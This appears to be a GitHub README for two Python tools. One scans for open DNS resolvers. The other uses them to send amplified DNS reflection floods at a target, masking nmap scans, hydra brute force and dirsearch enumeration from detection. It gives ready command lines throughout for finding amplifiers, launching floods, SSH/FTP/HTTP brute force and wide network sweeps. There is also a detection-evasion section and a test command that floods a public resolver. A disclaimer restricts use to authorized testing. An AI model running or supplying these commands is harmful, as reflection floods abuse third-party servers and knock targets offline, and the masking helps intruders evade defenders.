


# 🎭 The Vacuum a DNS Amplification Scaner & The Masquerade a DNS Amplification Masker.

[](https://www.python.org/downloads/)
[](https://opensource.org/licenses/MIT)
[]()
[]()

> **⚠️ DISCLAIMER: This tool is for educational and authorized penetration testing purposes only. Use only on systems you own or have explicit permission to test.**

## 📋 Table of Contents

- [Overview](#-overview)
- [Features](#-features)
- [Architecture](#-architecture)
- [Installation](#-installation)
- [Quick Start](#-quick-start)
- [Usage Examples](#-usage-examples)
- [Configuration](#-configuration)
- [Advanced Features](#-advanced-features)
- [Detection Evasion](#-detection-evasion)
- [Contributing](#-contributing)
- [Legal Notice](#-legal-notice)

## 🎯 Overview

**DNS Amplification Masker** is an advanced penetration testing framework that uses **DNS amplification attacks** to mask legitimate security scanning activities. By generating massive volumes of amplified DNS traffic directed at the target, it creates a "noise screen" that helps security tools like `nmap`, `hydra`, and `dirsearch` operate undetected.

### 🔬 How It Works



## ✨ Features

### 🛠️ **Supported Security Tools**
- **📡 Nmap** - Port scanning and service detection
- **⚔️ Hydra** - Brute force authentication attacks  
- **📁 Dirsearch** - Directory and file enumeration
- **🎯 Multi-target** - Bulk scanning capabilities
- **🌐 Web Scanning** - Comprehensive web application testing

### 🎭 **Masking Capabilities**
- **4 Intensity Levels**: `light`, `medium`, `heavy`, `extreme`
- **Weighted DNS Selection**: Prioritizes high-amplification servers
- **Dynamic Boost**: Increases masking when successful attacks detected
- **Burst Mode**: Short-term intensive amplification for critical moments
- **Background Masking**: Long-duration stealth coverage

### 📊 **Intelligence Features**
- **Real-time Statistics**: Live monitoring of amplification volume
- **Smart Detection**: Automatically identifies successful attacks
- **Result Logging**: Timestamped output files
- **Graceful Shutdown**: Clean termination on interruption
- **Resource Management**: Automatic cleanup of temporary files

## 🏗️ Architecture

### 📁 Project Structure

```
/vacuum_and_masquerade/
├── 📄 masquerade.py          # Main masking framework
├── 🔍 vacuum.py              # DNS vulnerability scanner  
└── 📖 README.md             # This file
```

### 🔧 Core Components

```python
class DNSAmplificationMasker:
    ├── 🗂️  DNS Server Management
    │   ├── load_vulnerable_dns_servers()
    │   ├── weighted_dns_choice()
    │   └── create_amplified_packet()
    │
    ├── 🎭 Masking Operations  
    │   ├── start_masking()
    │   ├── amplification_worker()
    │   ├── boost_masking()
    │   └── stop_masking()
    │
    ├── 🛠️ Tool Integration
    │   ├── masked_nmap_scan()
    │   ├── masked_hydra_attack()
    │   ├── masked_dirsearch()
    │   └── masked_comprehensive_web_scan()
    │
    └── 📊 Monitoring & Stats
        ├── stats_monitor()
        └── signal_handler()
```

## 🚀 Installation

### 📋 Prerequisites

```bash
# Ubuntu/Debian
sudo apt-get update
sudo apt-get install python3 python3-pip nmap hydra git

# Install dirsearch
pip3 install dirsearch
# OR
git clone https://github.com/maurosoria/dirsearch.git
```

### ⬇️ Install DNS Amplification Masker

```bash
# Clone repository
git clone https://github.com/toxy4ny/vacuum_and_masquerade.git
cd vacuum_and_masquerade
chmod +x masquerade.py vacuum.py
```

### 🔍 Find Vulnerable DNS Servers

```bash
# Scan for vulnerable DNS servers first
sudo python3 vacuum.py --output dns_report.json --threads 50 --timeout 5

# This creates the required DNS amplification report
```

## 🏃 Quick Start

### 1️⃣ **Basic Nmap Scan with Masking**

```bash
sudo python3 masquerade.py --dns-report dns_report.json nmap \
    --target 192.168.1.0/24 \
    --args "-p 22,80,443 -sV" \
    --intensity medium
```

### 2️⃣ **Web Directory Enumeration**

```bash
python3 masquerade.py --dns-report dns_report.json dirsearch \
    --url https://example.com \
    --extensions "php,html,js,txt" \
    --intensity heavy
```

### 3️⃣ **SSH Brute Force Attack**

```bash
python3 masquerade.py --dns-report dns_report.json hydra \
    --target ssh://192.168.1.100 \
    --service ssh \
    --userlist examples/users.txt \
    --passlist examples/passwords.txt \
    --intensity extreme
```

## 📚 Usage Examples

### 🌐 **Comprehensive Web Application Testing**

```bash
# Full web security assessment (nmap + dirsearch + hydra)
python3 masquerade.py --dns-report dns_report.json webscan \
    --url https://target-webapp.com \
    --intensity heavy
```

**What this does:**
1. **Phase 1**: Port scan (80, 443, 8080, 8443) with service detection
2. **Phase 2**: Directory enumeration with common web extensions  
3. **Phase 3**: HTTP authentication brute force on discovered endpoints

### 🎯 **Multi-Target Directory Scanning**

```bash
# Create target list
echo -e "https://site1.com\nhttps://site2.com\nhttps://api.site3.com" > targets.txt

# Bulk directory scanning with masking
python3 masquerade.py --dns-report dns_report.json multidirsearch \
    --targets targets.txt \
    --extensions "php,asp,jsp,json,xml" \
    --intensity extreme
```

### 🔧 **Advanced Nmap with Custom Arguments**

```bash
# Stealth SYN scan with OS detection and script scanning
sudo python3 masquerade.py --dns-report dns_report.json nmap \
    --target 10.0.0.0/8 \
    --args "-sS -O --script=vuln,exploit -T2" \
    --scan-delay 200 \
    --intensity heavy
```

### ⚔️ **Multi-Service Brute Force**

```bash
# SSH brute force
python3 masquerade.py --dns-report dns_report.json hydra \
    --target 192.168.1.100 \
    --service ssh \
    --args "-t 1 -W 60" \
    --intensity extreme

# HTTP basic auth
python3 masquerade.py --dns-report dns_report.json hydra \
    --target http://192.168.1.100/admin \
    --service http-get \
    --args '"/admin"' \
    --intensity heavy

# FTP brute force  
python3 masquerade.py --dns-report dns_report.json hydra \
    --target ftp://192.168.1.100 \
    --service ftp \
    --intensity medium
```

### 🔍 **Custom Dirsearch with Wordlists**

```bash
# Using custom wordlist and recursive scanning
python3 masquerade.py --dns-report dns_report.json dirsearch \
    --url https://target.com \
    --wordlist wordlists/big.txt \
    --args "--recursive --deep-recursive --random-user-agents" \
    --extensions "php,asp,aspx,jsp,do,action" \
    --intensity extreme
```

## ⚙️ Configuration

### 🎛️ **Masking Intensity Levels**

| Intensity | Threads | Rate (pps) | Burst Size | Use Case |
|-----------|---------|------------|------------|----------|
| `light`   | 3       | 10         | 5          | Basic stealth scanning |
| `medium`  | 5       | 50         | 10         | Standard penetration testing |
| `heavy`   | 8       | 100        | 20         | Advanced red team operations |
| `extreme` | 12      | 200        | 30         | High-security environments |

### 📊 **DNS Server Selection Logic**

```python
# Servers are weighted by amplification factor
Top 20% servers = High-amplification servers (1000x+)
Selection weight = amplification_factor * availability_score

# Example: Server with 5000x amplification gets 5000x selection probability
# vs server with 100x amplification
```

### 🎯 **Target Parsing Examples**

```bash
# Single IP
--target 192.168.1.100

# IP range (CIDR) 
--target 192.168.1.0/24

# Domain name
--target example.com  

# URL (for web tools)
--url https://example.com:8080/app

# Multiple targets file
echo -e "192.168.1.100\n10.0.0.50\nexample.com" > targets.txt
```

## 🔬 Advanced Features

### 🎭 **Dynamic Masking Boost**

The masker automatically increases amplification when successful attacks are detected:

```python
# Automatic boost triggers
✅ Nmap discovers open ports → Boost masking
✅ Hydra finds valid credentials → Extreme boost  
✅ Dirsearch finds resources → Burst amplification
⚡ Each boost adds 30-300 seconds of intense masking
```

### 📈 **Real-Time Statistics**

```bash
📊 Live stats during operation:
   ⏱️  Runtime: 145.2 seconds
   📦 Packets sent: 12,450
   📊 Average PPS: 85.6  
   💥 Amplification: ~2.1 GB traffic generated
   🎯 Active DNS servers: 15/87
```

### 🛡️ **Stealth Configuration**

```bash
# Nmap stealth settings (auto-applied)
-T2                    # Polite timing
--scan-delay 100ms     # Minimum delays
-sS                    # SYN stealth scan

# Hydra stealth settings  
-t 1                   # Single thread
-W 30                  # 30s between attempts
-f                     # Stop at first success

# Dirsearch stealth settings
--delay 2              # 2s between requests
--max-rate 10          # Max 10 req/sec
--random-user-agents   # Randomized headers
--threads 5            # Limited concurrency
```

### 📁 **Automatic Result Saving**

```bash
# Output files created automatically
dirsearch_example_com_20241201_143052.txt
nmap_scan_192_168_1_0_20241201_143105.xml
hydra_results_20241201_143200.txt

# Log files
masker.log             # Detailed operation log
amplification_stats.json  # Performance metrics
```

## 🕵️ Detection Evasion

### 🌊 **Traffic Mixing Strategy**



### ⚡ **Amplification Effectiveness**

```bash
# Typical amplification results
DNS Query (64 bytes) → Response (4,096 bytes) = 64x amplification
Target receives: Your 1 packet + 64x amplified packets mix

# With 50 vulnerable DNS servers:
Your scan: 1 packet/sec
Background: 3,200 amplified packets/sec  
Detection difficulty: 99.97% noise vs 0.03% signal
```

### 🎯 **Timing Strategies**

```python
# Smart timing patterns
scan_timing = {
    'burst_during_finds': True,     # Amplify when finding results
    'background_masking': True,     # Constant low-level noise
    'random_delays': True,          # Unpredictable intervals  
    'distributed_sources': True     # Multiple DNS reflectors
}
```

## 🔧 Tool Integration Details

### 📡 **Nmap Integration**

```bash
# Supported Nmap features
✅ All scan types: -sS, -sT, -sU, -sA, -sW, -sM
✅ Port specifications: -p 22,80,443 or -p 1-65535  
✅ Service detection: -sV, -sC, --script
✅ OS detection: -O, -A
✅ Timing controls: -T0 through -T5
✅ Output formats: -oN, -oX, -oG, -oA

# Auto-applied stealth settings
--scan-delay 100ms     # Minimum packet delay
-T2                    # Polite timing template  
--max-rate 50          # Max 50 packets/sec
```

### ⚔️ **Hydra Integration**

```bash
# Supported services
ssh, ftp, http-get, http-post-form, https-get, telnet,
smtp, pop3, imap, rdp, vnc, mysql, postgres, oracle, 
mssql, mongodb, redis, snmp, ldap, smb

# Stealth optimizations  
-t 1                   # Single thread mode
-W 30                  # 30 seconds between attempts
-f                     # Exit after first successful login
-v                     # Verbose output for monitoring
```

### 📁 **Dirsearch Integration**

```bash
# Key features enabled
✅ Recursive directory scanning
✅ Custom wordlists and extensions
✅ Random User-Agent rotation
✅ Response filtering and exclusions  
✅ Rate limiting and delays
✅ HTTP/HTTPS support with custom ports

# Performance settings
--delay 2              # 2 seconds between requests
--timeout 10           # 10 second timeout
--max-rate 10          # Maximum 10 requests/second
--threads 5            # 5 concurrent threads maximum
```

## 🐛 Troubleshooting

### ❓ **Common Issues**

```bash
# "Permission denied" when sending packets
Solution: Run with sudo privileges
sudo python3 masquerade.py ...

# "No vulnerable DNS servers found"  
Solution: Run vacuum.py first to find amplifiers
sudo python3 vacuum.py --output dns_report.json

# "Tool not found" errors
Solution: Install missing tools
sudo apt-get install nmap hydra
pip3 install dirsearch

# Low amplification effectiveness  
Solution: Use --intensity extreme and more DNS servers
python3 vacuum.py --timeout 10 --threads 100
```

### 📊 **Performance Tuning**

```bash
# For high-performance environments
--intensity extreme           # Maximum threads and rate
--threads 100                # More DNS discovery threads (vacuum.py)
--timeout 3                  # Faster DNS timeouts

# For stealth environments  
--intensity light            # Minimal footprint
--scan-delay 500            # Longer delays between packets
--max-rate 5                # Very low packet rate
```

### 🔍 **Debugging**

```bash
# Enable verbose logging
export PYTHONPATH="${PYTHONPATH}:."
python3 -v masker.py ...

# Check log files
tail -f masquerade.log
tail -f /var/log/syslog        # System-level networking

# Test amplification manually
sudo python3 masquerade.py --dns-report dns_report.json amplify \
    --target 8.8.8.8 --intensity light --duration 60
```

## 🤝 Contributing

We welcome contributions! Please follow these guidelines:

### 🔧 **Development Setup**

```bash
# Fork and clone
git clone https://github.com/toxy4ny/vacuum_and_masquerade.git
cd vacuum_and_masquerade

# Create development environment
python3 -m venv venv
source venv/bin/activate  
pip3 install -r requirements.txt

# Install development dependencies
pip3 install pytest black flake8 mypy
```

### 📝 **Code Standards**

```bash
# Before submitting PR, run:
black masquerade.py              # Code formatting
flake8 masquerade.py               # Linting  
mypy masquerade.py                 # Type checking
pytest tests/                  # Unit tests
```

### 🎯 **Contribution Areas**

- 🛠️ **Tool Integration**: Add support for new security tools
- 🔍 **Detection Methods**: Improve DNS server discovery  
- ⚡ **Performance**: Optimize amplification algorithms
- 🎭 **Evasion**: Enhance stealth techniques
- 📚 **Documentation**: Improve guides and examples
- 🧪 **Testing**: Add unit tests and integration tests

## ⚖️ Legal Notice

### 🚨 **Important Legal Information**

```
⚠️  DISCLAIMER: This tool is designed for authorized penetration testing,
    security research, and educational purposes only.

✅ AUTHORIZED USE:
   • Your own systems and networks
   • Systems with explicit written permission
   • Authorized penetration testing engagements  
   • Educational labs and training environments

❌ UNAUTHORIZED USE:
   • Any system without explicit permission
   • Infrastructure you do not own or control  
   • Networks without proper authorization
   • Any illegal or malicious activities

🔒 RESPONSIBILITY:
   Users are solely responsible for ensuring compliance with all
   applicable laws, regulations, and policies in their jurisdiction.
```

### 📋 **Compliance Guidelines**

1. **🔍 Always obtain written authorization** before testing any system
2. **📝 Document all testing activities** and maintain audit trails  
3. **⏰ Respect scope and time limitations** of authorized testing
4. **🛑 Stop immediately** if any unintended impact occurs
5. **📊 Report findings responsibly** through proper channels

### 🌍 **Legal Considerations by Region**

- **🇺🇸 United States**: Computer Fraud and Abuse Act (CFAA)
- **🇪🇺 European Union**: General Data Protection Regulation (GDPR)  
- **🇬🇧 United Kingdom**: Computer Misuse Act 1990
- **🇦🇺 Australia**: Telecommunications Act 1997
- **🌏 Other regions**: Consult local cybersecurity and computer crime laws

## 📄 License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

```
MIT License - Key Points:
✅ Commercial use allowed
✅ Modification allowed  
✅ Distribution allowed
✅ Private use allowed
⚠️  Limitation of liability
⚠️  No warranty provided
```

### 📊 **Project Statistics**


  


---

<div align="center">

**🎭 DNS Amplification Scanner & Masker - Advanced Penetration Testing Framework**

Made with ❤️ by the Security Research Community

*"In the art of war, stealth is the ultimate weapon"*

</div>
